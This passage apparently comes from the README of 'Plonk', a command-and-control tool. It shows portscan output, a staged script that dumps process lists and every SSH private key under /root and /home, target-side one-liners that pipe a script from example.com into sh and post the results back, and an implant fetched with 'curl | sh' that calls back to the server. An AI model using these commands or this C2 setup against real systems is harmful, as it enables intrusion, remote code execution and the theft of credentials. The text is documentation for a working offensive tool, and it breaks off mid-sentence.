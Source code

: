 which is probably a bit easier to read with 
[`jq`](https://jqlang.github.io/jq/):
```
$ tail -f log.json |
  jq -r 'select("Output" == .msg and "portscan" == .id) | .output'
Connection to 100.100.100.2 21 port [tcp/ftp] succeeded!
Connection to 100.100.100.2 22 port [tcp/ssh] succeeded!
Connection to 100.100.100.2 23 port [tcp/telnet] succeeded!
Connection to 100.100.100.2 21 port [tcp/ftp] succeeded!
Connection to 100.100.100.2 22 port [tcp/ssh] succeeded!
Connection to 100.100.100.2 23 port [tcp/telnet] succeeded!
```

Static Files (`/f`)
------------------
Plonk serves static files from `<plonk dir>/files` to requests for `/f/<path>`,
where the path is a path under `<plonk dir>/files`.  This is handy for staging
other tools.

### Example
We'll write a script to save us our first few minutes' worth of typing, then
run it on target.
#### Server:
```sh
cat >~/plonk.d/files/a.sh <<_eof
ps awwwfux
uname -a
id
find /{root,home/*}/.ssh -type f -exec echo {} \; -exec cat {} \;
_eof
```
#### Target:
```sh
curl -s https://example.com/f/a.sh |
sh 2>&1 |  # Script is executed and output sent back
curl --data-binary @- https://example.com/o/kittens
```

Implant Generation (`/c`)
-------------------------
An implant (in the loosest sense of the word) will be generated and returned
to a query to `/c`.  It takes no parameters.  

### Example
#### Target:
```sh
curl https://example.com/c | sh  # A callback should follow in short order
```

### Implant Templates
By default, a little self-backgrounding cURL-in-a-loop script is generated, but
this can be changed by putting a template using Go's
[template syntax](https://pkg.go.dev/text/template) in
`<plonk dir>/implant.tmpl`.  The template will be re-read every time `/c` is
called; no need to restart the server.  It will be passed the following struct
(from [`curlgen.go`](../internal/server/implantsvr/curlgen.go)):
```go
type TemplateParams struct {
	PubkeyFP string `json:",omitempty"` /* Self-signed TLS fingerprint. */
	RandN    string /* Random base36 number, for ImplantID */
	URL      string /* C2 URL for /{t,o}/ImplantID */
}
```
If there is no `implant.tmpl`, the built-in